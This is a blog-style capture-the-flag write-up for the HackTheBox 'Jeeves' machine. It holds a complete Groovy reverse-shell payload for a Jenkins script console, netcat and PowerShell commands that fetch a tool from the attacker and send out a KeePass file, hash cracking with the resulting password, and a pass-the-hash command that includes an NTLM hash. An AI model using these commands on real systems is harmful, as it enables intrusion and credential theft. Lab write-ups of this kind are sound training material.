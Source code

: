 ```yaml
---
layout: single
title:  Jeeves-HackTheBox
date: 2021-12-18
classes: wide
header:
  teaser: 
tags:
  - ctf
  - HackTheBox
--- 
```



Jeeves is in reference to a Jenkins server that we will eventually be exploiting. Super fun recap box!

![](/assets/images/Jeeves/jeevessite1.PNG)
Starting off by scanning ports.
![](/assets/images/Jeeves/jeevesscan.PNG)

See there is at least one webserver. Fuzz directories, ran nikto etc. Nothing of real interest there.
Check out the second Jetty webserver spotted in the nmap scan. gobuster until we find askjeeves	

![](/assets/images/Jeeves/jeeves1finsihsed.PNG)

Stumble accross the scripting console
![](/assets/images/Jeeves/jeevescli.PNG)

Do research to find ways to exploit this
exploit jenkins with groovy script 
https://book.hacktricks.xyz/pentesting/pentesting-web/jenkins#code-execution
![](/assets/images/Jeeves/jeevesscript.PNG)


https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#groovy

String host="<LOCAL-IP>";
int port=1234;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

![](/assets/images/Jeeves/jeevesusershell.PNG)  
  
We get a user shell as kohsuke. 
After a little bit of recon we come accross CEH.kdbx 
  
This file format appears to be a keepass password file. Before we attempt to see the password we have to download the file to our local machine. 
  
![](/assets/images/Jeeves/jeeveskdbx.PNG)

 I achieved this by downloading a netcat executable from the user shell we are in from a python http server that we host.
  
"powershell wget "http://localip:8000/nc.exe" -outfile nc.exe"
The virtual machine cannot reach out to github to download the file from there
Then "nc -lnvp <port> > CEH.kdbx" on your local machine and "nc.exe <local-ip> <same-port> < "CEH.kdbx" on the victim machine

We need a password to open the kdbx file. Why dont we crack it? 
I used this article as guidance, the main points summarized are
                                                                                               
https://www.rubydevices.com.au/blog/how-to-hack-keepass 
download and use keepass2john on the kdbx file.

./keepass2john CEH.kdbx > CEH.hash
Remove name of keepass database from the new hashfile. 
use hashcat to crack the file.

./hashcat -m 13400 -a 0 -w 1 CEH.hash <wordlist-file> 
 moonshine1 is the password to the keepass file
  
 ![](/assets/images/Jeeves/jeeveskeepass1.png)
 
 ![](/assets/images/Jeeves/jeeveskeepass2.png)
 
 We find a hash in the keepass file under the title of Backup stuff
 From here I got stuck for a while. While researching I found the tool pth-winexe
 read the docs, run to get admin! 
  
 pth-winexe --user=jeeves/administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 --system //10.10.10.63 cmd.ex
 
 we now have a root shell!
 ![](/assets/images/Jeeves/jeevesroot.PNG)

admin has hm.txt file redirecting to actual file
![](/assets/images/Jeeves/jeeveshn.PNG)

 get-content .\hm.txt -stream root.txt
and we get root flag :)
